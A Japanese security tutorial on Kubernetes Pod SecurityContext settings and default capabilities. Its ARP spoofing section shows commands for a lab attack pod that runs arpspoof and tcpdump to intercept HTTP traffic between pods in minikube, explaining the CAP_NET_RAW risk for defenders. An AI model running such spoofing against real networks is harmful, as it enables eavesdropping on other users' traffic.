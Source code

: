 # Pod の権限と Node へのエスケープ

[ホストへのエスケープ](https://container-security.dev/security/breakout-to-host.html)でも紹介したように、特権コンテナはホスト側にエスケープすることが可能です。  
Kubernetes の場合は Pod がスケジュールされた Node にエスケープすることができます。

## SecurityContext

Docker ではコマンドラインオプションでコンテナの権限を設定できました。  
Kubernetes の Pod では SecurityContext を利用して Pod やコンテナに対して次のような設定が可能です。

- DAC ... 実行ユーザーや volume のグループを変更する
- SELinux ... SELinux の設定
- AppArmor ... AppArmor の設定
- 特権コンテナ ... 特権コンテナか非特権コンテナかの設定
- Linux Capabilities ... Capabilities の設定
- seccomp ... seccomp の設定
- AllowPrivilegeEscalation ... プロセスが追加の特権を取得できないようにする
- readOnlyRootFilesystem ... コンテナのルートファイルシステムを Read Only にする

それぞれの挙動の詳細についてはドキュメントを参照ください。

## Capabilities

コンテナへの過剰な Capability 不要は Breakout につながるものであると紹介しました。  
それでは Pod のデフォルトの Capabilities を確認してみましょう。

```shell
root@test:/# pscap -a
ppid  pid   name        command           capabilities
0     1     root        bash              chown, dac_override, fowner, fsetid, kill, setgid, setuid, setpcap, net_bind_service, net_raw, sys_chroot, mknod, audit_write, setfcap
```

`pscap` コマンドで確認すると、いくつかの Capability が付与されていることが確認できます。  
この中でも興味深いのは `CAP_NET_RAW` です。これは Raw Socket を使うことができるため、 ARP Spoofing や DNS Spoofing を行うことができます。

## ARP Spoofing で Pod 間の通信を盗聴する

Raw Socket を扱えるため ARP Spoofing によって Pod 間の通信を盗聴することができます。  
では実際に試してみましょう。まず、サーバーとなる nginx Pod と、そこにアクセスする client Pod を作成します。

```shell
$ kubectl run --image=nginx:latest server
$ kubectl get pods -o wide
NAME       READY   STATUS    RESTARTS   AGE   IP            NODE       NOMINATED NODE   READINESS GATES
server     1/1     Running   0          15m   172.17.0.15   minikube   <none>           <none>

$ kubectl run --image=nicolaka/netshoot:latest --rm -it client -- bash -c 'while true; do curl http://172.17.0.15 ; sleep 5; done'

$ kubectl get pods -o wide
NAME       READY   STATUS    RESTARTS   AGE   IP            NODE       NOMINATED NODE   READINESS GATES
server     1/1     Running   0          3m   172.17.0.15   minikube   <none>           <none>
client     1/1     Running   0          2m30s   172.17.0.16   minikube   <none>           <none>
```

そして攻撃者用の Pod を作成し、 `arpspoof` コマンドで ARP Spoofing を実行します。  
同時に、 `tcpdump` で通信内容を確認します。

```shell
$ kubectl run --image=ubuntu:latest --rm -it attacker bash
root@attacker:/# apt update ; apt install -y dsniff tcpdump
root@attacker:/# arpspoof -t 172.17.0.16 172.17.0.15
```

```shell
$ kubectl exec -it attacker -- tcpdump -i any tcp -vv
    172.17.0.16.55080 > 172.17.0.15.80: Flags [P.], cksum 0x58b3 (incorrect -> 0x96e4), seq 0:75, ack 1, win 502, options [nop,nop,TS val 910579351 ecr 3251193240], length 75: HTTP, length: 75
        GET / HTTP/1.1
        Host: 172.17.0.15
        User-Agent: curl/7.71.1
        Accept: */*
```

このように通信内容を取得することができました。

## DNS Spoofing

TBD
